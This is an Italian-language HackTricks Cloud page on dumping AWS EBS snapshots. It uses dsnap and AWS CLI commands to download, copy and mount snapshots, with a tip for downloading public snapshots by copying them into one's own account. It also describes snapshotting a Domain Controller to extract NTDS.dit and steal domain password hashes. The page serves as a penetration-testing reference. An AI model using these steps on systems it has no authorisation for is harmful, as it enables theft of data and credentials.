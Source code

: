 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Controllare uno snapshot localmente
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** che `dsnap` non ti permetterà di scaricare snapshot pubblici. Per aggirare questo, puoi fare una copia dello snapshot nel tuo account personale e scaricare quello:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Per ulteriori informazioni su questa tecnica, consulta la ricerca originale in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puoi farlo con Pacu utilizzando il modulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Controllare uno snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montalo in una VM EC2 sotto il tuo controllo** (deve essere nella stessa regione della copia del backup):

Passo 1: Deve essere creato un nuovo volume della dimensione e tipo preferiti andando su EC2 –> Volumi.

Per poter eseguire questa azione, segui questi comandi:

* Crea un volume EBS da allegare all'istanza EC2.
* Assicurati che il volume EBS e l'istanza siano nella stessa zona.

Passo 2: L'opzione "allega volume" deve essere selezionata facendo clic con il tasto destro sul volume creato.

Passo 3: L'istanza dalla casella di testo dell'istanza deve essere selezionata.

Per poter eseguire questa azione, usa il seguente comando:

* Allegare il volume EBS.

Passo 4: Accedi all'istanza EC2 e elenca i dischi disponibili usando il comando `lsblk`.

Passo 5: Controlla se il volume ha dati usando il comando `sudo file -s /dev/xvdf`.

Se l'output del comando sopra mostra "/dev/xvdf: data", significa che il volume è vuoto.

Passo 6: Format il volume nel filesystem ext4 usando il comando `sudo mkfs -t ext4 /dev/xvdf`. In alternativa, puoi anche usare il formato xfs usando il comando `sudo mkfs -t xfs /dev/xvdf`. Si prega di notare che dovresti usare o ext4 o xfs.

Passo 7: Crea una directory a tua scelta per montare il nuovo volume ext4. Ad esempio, puoi usare il nome "newvolume".

Per poter eseguire questa azione, usa il comando `sudo mkdir /newvolume`.

Passo 8: Monta il volume nella directory "newvolume" usando il comando `sudo mount /dev/xvdf /newvolume/`.

Passo 9: Cambia directory nella directory "newvolume" e controlla lo spazio su disco per convalidare il montaggio del volume.

Per poter eseguire questa azione, usa i seguenti comandi:

* Cambia directory in `/newvolume`.
* Controlla lo spazio su disco usando il comando `df -h .`. L'output di questo comando dovrebbe mostrare lo spazio libero nella directory "newvolume".

Puoi farlo con Pacu usando il modulo `ebs__explore_snapshots`.

## Controllare uno snapshot in AWS (usando cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Qualsiasi utente AWS in possesso del permesso **`EC2:CreateSnapshot`** può rubare gli hash di tutti gli utenti del dominio creando un **snapshot del Domain Controller**, montandolo su un'istanza che controllano e **esportando il file NTDS.dit e il registro SYSTEM** per l'uso con il progetto secretsdump di Impacket.

Puoi utilizzare questo strumento per automatizzare l'attacco: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oppure potresti utilizzare una delle tecniche precedenti dopo aver creato uno snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
